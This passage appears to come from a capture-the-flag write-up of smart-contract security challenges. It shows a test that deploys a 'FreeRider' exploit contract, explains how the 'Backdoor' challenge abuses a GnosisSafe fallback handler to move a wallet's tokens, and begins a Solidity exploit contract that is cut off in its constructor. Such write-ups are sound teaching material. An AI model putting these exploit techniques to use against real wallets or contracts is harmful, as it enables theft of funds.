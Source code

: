 Solution (challenge):

```javascript
it('Exploit', async function () {
        /** CODE YOUR EXPLOIT HERE */
        const exploit = await (await ethers.getContractFactory('FreeRiderExploit', deployer)).deploy(
            this.uniswapPair.address,
            this.weth.address,
            this.marketplace.address,
            this.nft.address,
            attacker.address,
            this.buyerContract.address
        )
        await exploit.connect(attacker).attack()
    });
```

## 11. Backdoor

The *GnosisSafe* contract does not have a *transfer* function. So if we'd set the token address as fallback-handler and call `transfer()` on the wallet, the wallet should call *transfer* on the token. Since the token contract is being called by the wallet, the `msg.sender` will be the wallet's address and therefore we can freely transfer tokens that belong to the wallet.

Solution (contract):

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import "@gnosis.pm/safe-contracts/contracts/proxies/IProxyCreationCallback.sol";
import "@gnosis.pm/safe-contracts/contracts/proxies/GnosisSafeProxy.sol";
import "@openzeppelin/contracts/token/ERC20/IERC20.sol";

interface IGnosisSafeProxyFactory {
    function createProxyWithCallback(
        address _singleton,
        bytes memory initializer,
        uint256 saltNonce,
        IProxyCreationCallback callback
    ) external returns (GnosisSafeProxy proxy);
}

interface IGnosisSafe {
    function setup(
        address[] calldata _owners,
        uint256 _threshold,
        address to,
        bytes calldata data,
        address fallbackHandler,
        address paymentToken,
        uint256 payment,
        address payable paymentReceiver
    ) external;
}

contract WalletRegistryExploit {
    constructor(
        address registryAddress,
        address masterCopyAddress,
        IGnosisSafeProxyFactory walletFactory,
        IERC20 token,
        address[] memory victims
    ) {
```